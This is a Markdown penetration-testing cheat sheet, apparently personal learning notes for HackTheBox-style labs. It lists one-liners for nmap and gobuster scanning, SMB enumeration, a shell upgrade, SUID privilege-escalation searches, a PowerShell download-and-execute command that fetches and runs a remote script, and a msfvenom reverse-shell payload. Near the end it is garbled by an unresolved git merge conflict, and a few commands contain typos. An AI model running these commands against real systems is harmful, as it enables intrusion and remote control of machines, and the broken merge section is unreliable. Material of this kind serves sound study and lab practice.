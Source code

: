 # Penetration Testing Cheat Sheet
Captured learning notes

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

<<<<<<< HEAD
## msfvenom
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
=======
## Connect to pop3
```bash
openssl s_client -connect chaos.htb:995
```
>>>>>>> bbae261508629aca3fd7204d0603de665c376fce
```
